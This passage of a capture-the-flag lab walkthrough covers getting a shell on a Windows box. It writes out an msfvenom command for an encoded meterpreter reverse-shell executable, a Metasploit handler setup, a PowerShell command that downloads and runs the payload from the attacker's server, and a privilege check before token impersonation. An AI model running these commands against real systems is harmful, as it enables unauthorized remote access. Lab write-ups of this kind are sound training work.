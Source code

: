 We will generate a payload that we can run on the target machine and get a reverse shell in meterpreter.

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.6.29.149 LPORT=4444 -f exe -o shell.exe
```
<img src="images/05.Alfred/16.png">

Launch metasploit. Use multi/handler with the meterpreter payload set. 

```
msfconsole -q
```
```
use multi/handler
```
```
set payload windows/meterpreter/reverse_tcp
```
```
set lhost tun0
```
```
set lport 4444
```
```
run
```
Again start the python http server and download the generated payload to the target machine and run it.

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.6.29.149:8000/shell.exe','shell.exe')"
```
```
Start-Process "shell.exe"
```
<img src="images/05.Alfred/17.png">

Go back to metasploit and we get a meterpreter session opened.

<img src="images/05.Alfred/18.png">

# Privilege Escalation

Let's check the privileges for the user that we are currenlty logged in.

```
whoami /priv
```
We can see that the SeImpersonatePrivilege is enabled. Let's try token impersonation.

<img src="images/05.Alfred/19.png" height="700">
